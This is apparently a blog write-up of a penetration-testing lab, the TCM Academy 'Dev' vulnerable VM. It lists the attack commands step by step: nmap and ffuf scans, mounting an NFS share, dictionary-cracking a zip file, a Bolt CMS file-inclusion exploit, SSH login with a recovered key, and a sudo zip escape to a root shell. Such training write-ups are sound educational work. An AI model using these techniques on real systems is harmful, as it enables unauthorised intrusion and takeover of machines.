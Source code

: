 [Back to menu](https://themaster-2.github.io/EthicalHackingWriteUps/)

Ethical Hacking Blog - John Bayes

VM Dev by TCM Academy


This is my first write up! :)

This Vulnerable by design VM is provided by TCM Academy as part of the course Practical Ethical Hacking - The Complete Course.

I had to change the VM network cards to NAT, also for some reason this VM was dual honed, however, this is not relevant.


When the VM booted, I had to log in and run DHclient as no IP was being picked up by the VM (creds are provided in a text file by TCM)

```markdown
DHClient
```

Then I ran Netdiscover to get the victim IP, for me.

```markdown
sudo netdiscover -r 192.168.22.0/24
```
Discovered 192.168.22.136

From the attack VM, run NMAP against the victim VM 192.168.22.136.

```markdown
sudo nmap -A -p- -T4 192.168.22.136
```

![image](https://user-images.githubusercontent.com/66864342/160243024-f237bfba-81e5-4266-8bd8-12e3805577fa.png)
![image](https://user-images.githubusercontent.com/66864342/160243035-fb8b2c2a-664a-43e4-8244-7aba436d9488.png)

Interesting ports and info

- 22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
- _http-server-header: Apache/2.4.38 (Debian)
- _http-title: Bolt - Installation error
- 111/tcp   open  rpcbind  2-4 (RPC #100000)
- 2049/tcp  open  nfs_acl  3 (RPC #100227)
- 8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
-	_http-server-header: Apache/2.4.38 (Debian)
-	_Methods supported:CONNECTION
-	_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
- Running Linux 4.X 5.X
- OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
- OS details: Linux 4.15 - 5.6
- Network Distance: 1 hop
- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel!

Browse to port http://192.168.22.136:80

Default webpage bolt installation error?

![image](https://user-images.githubusercontent.com/66864342/160243232-38f450e6-66ee-4140-946f-4cf00e9c9f08.png)


I browsed to http://192.168.22.136:8080

Discovered PHP.ini webpage


![image](https://user-images.githubusercontent.com/66864342/160243472-26a386e7-8ee1-4766-9c42-a8b12c983547.png)


Then I ran FFUF to parse web folders in two tabs

```markdown
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.22.136/FUZZ
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.22.136:8080/FUZZ
```

So, then I checked NFS
```markdown
Showmount -e 192.168.22.136 for nfs
```

mkdir in mnt i called it nfs

```markdown
cd mnt
mkdir nfs
sudo mount -t nfs 192.168.22.136:/srv/nfs /mnt/nfs -o nolock
```

In nfs folder I found a file called save.zip


![image](https://user-images.githubusercontent.com/66864342/160244210-cb28624a-b755-4284-8f4d-2ebd4efa4ec8.png)


However the file is password protected. so I tried fcrack!

```markdown
Fcrack -v -u -D -p /usr/share/wordlists/rockyou.txt
```

info
-v=verbose -u=unzip -D=dictionary -p=file


password is java101

I extract 2 files

![image](https://user-images.githubusercontent.com/66864342/160245066-0cf3a05e-29cc-4093-b373-11ca7aaca0b5.png)


Ok so then I cat both files

![image](https://user-images.githubusercontent.com/66864342/160245036-adf5e998-18cb-40ca-a990-ea3f22476fa8.png)

the id_rsa is a certificate file


From the FFUF results, I discovered the following web folders


![image](https://user-images.githubusercontent.com/66864342/160243845-7911f7ae-a700-4cbd-991a-4e48fd81a3cb.png)


Opened config.yaml and I found a username & password


![image](https://user-images.githubusercontent.com/66864342/160244148-5dcb3f37-b215-47f1-9b77-6e9fafc0847c.png)



I went back to port 80 to see what bolt is...

After Googling, it seems to be a CMS, I also find an exploit for a local file inclusion

https://www.exploit-db.com/exploits/48411


![image](https://user-images.githubusercontent.com/66864342/160244458-e91cdcf8-2f4c-4af6-a7f5-ccf99d837cba.png)

Ran the exploit after registering an account

![image](https://user-images.githubusercontent.com/66864342/160244777-797f3760-e6d2-49ec-8f19-708e976adc1a.png)



![image](https://user-images.githubusercontent.com/66864342/160244472-ad6caaa5-1ec9-4a8f-8411-53bf70e56edf.png)


The one of interest to me is the user 1000 permission futher down the list

jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash


![image](https://user-images.githubusercontent.com/66864342/160244492-f39e6c95-d357-4250-a950-21da05052723.png)

Ok so then I  tried logging in as jeanpaul with a password (this didnt work, so used SSH -i id_rsa - I also had to change permission on file to 400

```markdown
ssh -i id_rsa jeanpaul@192.168.22.136
```

```markdown
sudo -l
```
   (root) NOPASSWD: /usr/bin/zip
   
So the above means I can run zip as root

So I go to GTFOBINS

https://gtfobins.github.io/

I searched for ZIP, and I got the sudo one

I typed commands one line at a time

```markdown
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

![image](https://user-images.githubusercontent.com/66864342/160245568-96c1fe61-2516-4811-b792-0358998ad105.png)



BOOM JOB DONE!
Thanks to TCM Academy for the VM

